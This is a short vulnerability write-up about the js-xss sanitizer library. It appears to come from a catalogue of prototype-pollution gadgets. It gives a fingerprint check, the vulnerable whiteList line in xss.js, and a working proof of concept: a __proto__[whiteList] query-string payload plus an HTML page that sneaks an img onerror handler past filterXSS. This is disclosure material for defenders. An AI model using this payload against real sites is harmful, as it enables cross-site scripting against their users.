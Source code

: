 ## js-xss

URL: https://github.com/leizongmin/js-xss/

### JS Fingerprint
```
return (typeof filterXSS !== 'undefined')
```

### Vulnerable code fragment
https://github.com/leizongmin/js-xss/blob/3cf0ff6f865118bb5759ae9cdead6ae949648e43/lib/xss.js#L84
```js
  options.whiteList = options.whiteList || DEFAULT.whiteList;
```

### PoC

```
?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/js-xss/0.3.3/xss.min.js"></script>
<script>
  Object.prototype.whiteList = {img: ['onerror', 'src']}
</script>
<script>
  document.write(filterXSS('<img src onerror=alert(1)>'))
</script>
```